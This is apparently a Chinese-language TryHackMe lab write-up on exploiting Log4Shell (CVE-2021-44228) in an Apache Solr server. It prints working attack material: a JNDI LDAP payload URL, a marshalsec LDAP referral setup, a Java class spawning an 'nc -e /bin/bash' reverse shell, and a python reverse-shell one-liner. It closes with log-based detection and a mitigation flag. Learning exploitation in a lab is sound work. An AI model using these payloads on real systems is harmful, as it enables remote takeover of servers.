 # THM Solar, exploiting log4j

https://tryhackme.com/room/solar
- 2021 / 12 / 9 公開了 CVE-2021-44228，影響到了 log4j，它的危害程度達到 10，這個漏洞又被稱作 Log4Shell
- 現在已經有新版的 2.16.0 Release 了，不過又出現了 Log4j2

## Recon
![](https://i.imgur.com/3mP4uA7.png)


透過掃 Port 可以看到有開 3 個 Port，分別是22,111,8983

`rustscan -a 10.10.18.186 -r 1-65535`

可以用 nmap 做更詳細的掃瞄

nmap -sV -Pn -A -p22,111,8983 10.10.18.186

![](https://i.imgur.com/0SSpNAR.png)

可以發現 8983 開的是一個 Apache solr 的 Server 

## Discovery


![](https://i.imgur.com/RidZWlU.png)

觀察首頁的版本可以知道他是 Solr 8.11.0

觀察 `-Dsolr.log.dir` 可以看到他的 log Path 是 `/var/solr/logs`

![](https://i.imgur.com/KE5WrQb.png)

下載 lab 提供的 solrlogs.zip 檔案，他是一份範例的 Log 檔案

可以觀察到裡面有一個叫做 `solr.log` 的檔案會紀錄網頁的 Path 相關 Log


![](https://i.imgur.com/Sh2fmEO.png)

可以發現裡面一直重複的 path 是 `/admin/cores`

觀察這份 Log，可以發現，使用者能控制的點應該是 `params` 這個參數

繼續觀察可以發現這份 log 中，網址最前面的 `/solr` 不會被紀錄上去，代表說需要省略

![](https://i.imgur.com/shhnG2v.png)


這個時候我們就可以直接用最基本的 Payload 來進行測試

先在本地端用 nc -nlvp 9999 開一個監聽

然後用瀏覽器訪問

```
http://10.10.18.186:8983/solr/admin/cores?meow=${jndi:ldap://10.13.21.55:9999}
```

![](https://i.imgur.com/vrZ1XCe.png)


就可以發現 Server 吐了一些東西回來

因為他是 Ldap Server 的 Request，所以會是一些 non-printable 的 ascii string

## 安裝 Java 環境

這邊的範例需要安裝 jdk (**jdk-8u181-linux-x64.tar.gz**)

可以先透過 `wget https://repo.huaweicloud.com/java/jdk/8u181-b13/jdk-8u181-linux-x64.tar.gz` 進行下載
(這邊我沒有用範例裡面的連結，因為他速度太慢QQ)

接下來照著教學無腦貼

```
sudo mkdir /usr/lib/jvm 
cd /usr/lib/jvm
sudo tar xzvf /home/kali/tryhackme/log4j/jdk-8u181-linux-x64.tar.gz
sudo update-alternatives --install "/usr/bin/java" "java" "/usr/lib/jvm/jdk1.8.0_181/bin/java" 1
sudo update-alternatives --install "/usr/bin/javac" "javac" "/usr/lib/jvm/jdk1.8.0_181/bin/javac" 1
sudo update-alternatives --install "/usr/bin/javaws" "javaws" "/usr/lib/jvm/jdk1.8.0_181/bin/javaws" 1
sudo update-alternatives --set java /usr/lib/jvm/jdk1.8.0_181/bin/java
sudo update-alternatives --set javac /usr/lib/jvm/jdk1.8.0_181/bin/javac
sudo update-alternatives --set javaws /usr/lib/jvm/jdk1.8.0_181/bin/javaws
```

![](https://i.imgur.com/qKNiiCC.png)


無腦貼完之後可以確認一下 java version 是 1.8.0_181

![](https://i.imgur.com/LJcu4X8.png)


接下來安裝 **`marshalsec`** Java 反序列化工具

直接透過 `git clone https://github.com/mbechler/marshalsec` 即可安裝

![](https://i.imgur.com/bYZ7d0s.png)


接下來需要安裝 maven **`sudo apt install maven`**

![](https://i.imgur.com/Kg6mhuF.png)


接下來透過 maven 來 Build 工具 `mvn clean package -DskipTests` 

![](https://i.imgur.com/kVRbMma.png)

等他 Build 一陣子後，終於顯示了 BUILD SUCCESS QQ

![](https://i.imgur.com/zGtwMFT.png)


## 準備 Run Exploit Server

**`java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.13.21.55:8000/#Exploit"`** 

執行下去之後他就會自動開啟一個 LDAP 的 Server

![](https://i.imgur.com/0AKrXic.png)


並說他會開始 Listen 1389 Port

接下來準備一個 Exploit 的 java 檔案，讓他吐 reverse shell 回來

```java
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 10.13.21.55 9999");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

並輸入 `javac Exploit.java -source 8 -target 8` 進行編譯，會產出 `Exploit.class` 檔案

![](https://i.imgur.com/QtQGNIF.png)


接下來開啟 `python3 -m http.server 8000`

與另外一個 Terminal 準備 9999 port 的 nc 監聽

## 正式 Exploit

瀏覽器輸入 `http://10.10.18.186:8983/solr/admin/cores?meow=${jndi:ldap://10.13.21.55:1389/Exploit}` 

可以發現 LDAP Server 讀到了 Request

![](https://i.imgur.com/KAypsuG.png)


Python Server 也收到了這個 Request

![](https://i.imgur.com/WUQbcOt.png)

![](https://i.imgur.com/6eJct0B.png)

NC 端也收到了 Reverse shell

![](https://i.imgur.com/zzc9akI.png)

## 後滲透

`python3 -c 'import pty;pty.spawn("/bin/bash")'` 可以取得比較完整的 Shell

```
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.13.21.55",444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")' &
```

接著我們可以用 `sudo -l` 確認自己可以用 sudo 做任何事情

![](https://i.imgur.com/a6Oa4vl.png)

幫 solr 改ㄍ密碼

`sudo passwd solr`

![](https://i.imgur.com/MHhsy9n.png)

接下來就可以 SSH 上去ㄌ

![](https://i.imgur.com/QdK8BTK.png)


## 偵測

觀察 log ，可以從前面的 web 首頁看出  所在位置在 `/var/solr/logs/solr.log`

可以看到我們的 Log 裡面有很明顯紀錄到這些東西

![](https://i.imgur.com/Rhw8JmZ.png)


## 減緩

透過 `locate solr.in.sh` 可以找到


![](https://i.imgur.com/E1n6w60.png)

`/etc/default/solr.in.sh` 這個檔案

在裡面的最下面加上

```
SOLR_OPTS="$SOLR_OPTS -Dlog4j2.formatMsgNoLookups=true"
```

接下來重開 Solr

```shell-session
sudo /etc/init.d/solr restart
```

再下一次就會發現收不到ㄌ

![](https://i.imgur.com/ftjKD1F.png)
